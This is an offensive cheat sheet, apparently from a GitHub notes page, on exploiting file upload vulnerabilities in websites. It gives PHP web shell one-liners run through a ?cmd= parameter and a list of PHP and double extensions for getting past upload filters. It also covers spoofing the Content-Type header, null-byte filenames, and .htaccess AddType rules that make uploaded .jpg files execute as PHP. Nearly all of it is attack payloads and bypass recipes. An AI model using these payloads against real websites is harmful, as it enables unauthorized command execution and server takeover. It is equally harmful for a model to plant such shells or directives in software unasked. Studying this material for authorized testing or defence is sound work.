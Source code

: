 You should always test for file upload vulnerabilities by trying to upload simple php shells in target websites.

<?php system('ls') ?>
<?php system('id') ?>
## Via Common php file extensions:
1. .php
2. .php3
3. .php4
4. .php5
5. .php6
6. .phtml
7. .png.php
8. .jpg.php
9. .jpeg.php


for shell.php above add ?cmd=<command-e.g whoami> in the path where the file is uploaded eg /images/safeImage.php?cmd=whoami

## via Content-Type Header Tricks (For Upload Bypass)
image/jpeg	Upload shell.php but rename it shell.jpg and set this as Content-Type. Some apps only check the Content-Type.
application/x-php	Old trick if server-side allows this — rare now.
application/octet-stream	Generic binary stream. Sometimes used to bypass filters that expect image/*.
text/plain	Might bypass if the app only checks for image MIME types.
multipart/form-data; boundary=xyz	Used to send raw POST data for file upload, manipulating boundaries and headers.
text/html	Sometimes used to trick filters, especially in combo with file extension manipulation.
image/png + fake header	Use a real image header + PHP code.


## Via .htaccess:
filename=".htaccess"    OR    ".htaccess%00.jpg"

  AddType application/x-httpd-php .jpg         ---->This will process any jpg file uploaded as php: Also make sure to set Content-Type: application/x-php when uploding the   jpg

  AddType text/html .jpg                       ---->This will process any jpg file uploaded as html

